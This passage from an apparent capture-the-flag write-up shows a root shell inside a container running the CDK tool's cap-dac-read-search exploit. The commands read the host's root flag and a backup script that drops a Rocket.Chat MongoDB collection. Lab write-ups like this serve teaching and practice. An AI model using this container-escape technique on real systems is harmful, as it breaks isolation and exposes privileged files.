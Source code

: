 Let's read the `root.txt` flag `/root/root.txt`:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
ae2...da0
```

We have the `root.txt` hash!

We can also view that `update_mongo.py` script we saw running before:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search /root/.backup/update_mongo.py
Running with target: /root/.backup/update_mongo.py, ref: /etc/hostname
from pymongo import MongoClient
# pprint library is used to make the output look more pretty
from pprint import pprint
# connect to MongoDB, change the << MONGODB URL >> to reflect your own connection string
client = MongoClient("mongodb://172.17.0.2:27017/meteor")
db=client.admin
# Issue the serverStatus command and print the results
serverStatusResult=db.command("serverStatus")
truncate_integrations=db.rocketchat_integrations.drop({})
print(truncate_integrations)
```
